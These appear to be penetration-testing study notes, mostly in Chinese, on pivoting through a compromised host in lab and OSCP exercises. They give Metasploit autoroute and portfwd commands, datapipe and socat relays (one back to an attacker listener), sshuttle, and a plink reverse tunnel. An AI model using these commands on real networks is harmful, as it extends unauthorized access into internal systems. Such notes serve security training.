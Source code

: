 ```shell-session
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```
### 直接在meterpreter裡面加入
```shell-session
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```
>[!重點] 
>這個時候已經可以透過proxychain去運作所有軟體
- Portfwd : 可以讓其他程式不用打proxychain就直接用
```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
# datapipe
[下載點](https://github.com/bovine/datapipe)
```
sudo ./datapipe 0.0.0.0 135 192.168.0.7 135 
sudo ./datapipe 0.0.0.0 445 192.168.0.7 445 
sudo ./datapipe 0.0.0.0 4444 172.19.19.18 4444
```
# socat
>[!warning ]+ 小節重點 
>socat可以直接綁定中繼站的port跟攻擊機
>- TCP-LISTEN:8080 是中繼站開8080 常見port位 
>- 10.10.14.18是攻擊機，80 port 是攻擊機監聽的port位
```shell-session
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
- OSCP Command
```
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
# sshuttle
>[!warning]+ 小節重點
>可以直接把172.16.5.0/23加進來，處理起來很方便
- 假如`10.129.200.64`有連接到另一個網路`172.16.5.0/23`，可以直接透過sshuttle讓其他工具連到`172.16.5.0/23`
```shell-session
sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v 
```
- OSCP Command
```
sshuttle -r database_admin@192.168.246.63:2222 10.4.246.0/24 172.16.246.0/24
```
# Plink.exe
```
plink.exe -ssh -l kali -pw kali -R 127.0.0.1:4445:127.0.0.1:3389 192.168.45.176
```